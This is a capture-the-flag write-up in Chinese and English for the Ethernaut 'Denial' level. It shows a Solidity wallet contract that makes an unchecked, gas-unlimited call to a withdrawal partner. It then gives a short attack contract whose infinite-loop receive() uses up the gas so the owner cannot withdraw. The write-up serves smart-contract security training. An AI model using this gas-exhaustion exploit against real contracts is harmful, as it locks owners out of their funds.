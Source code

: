 #   Level 20 Denial
實例地址：`0x5A97bF88570A4234A5Bb75EE5B5455147aaB2025`

##  題目說明
This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

##  POC
目的是要讓該合約在執行 `withdraw()` 時，`owner` 無法獲取貨幣，這關 `withdraw()` 使用 `partner.call` 來傳送 `ether`，並且沒有限制 `gas`，題目再進行測試時呼叫 `withdraw()` 有限制 1M 以下，所以我們可以將 `partner` 設置 `receive` 執行無窮迴圈，當他接受到原合約金額時，執行 `receive`，直到將所剩 `gas` 消耗至剩餘原本 1/64，才會跳脫 `call`，剩餘 `gas` 可能已經無法足夠使用下面指令。

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface Denial {
    function setWithdrawPartner(address _partner) external;
    function withdraw() external;
}

contract Attack{
    constructor(address target){
        Denial(target).setWithdrawPartner(address(this));
        Denial(target).withdraw();
    }

    receive() external payable{
        while(true){
        }
    }
}
```
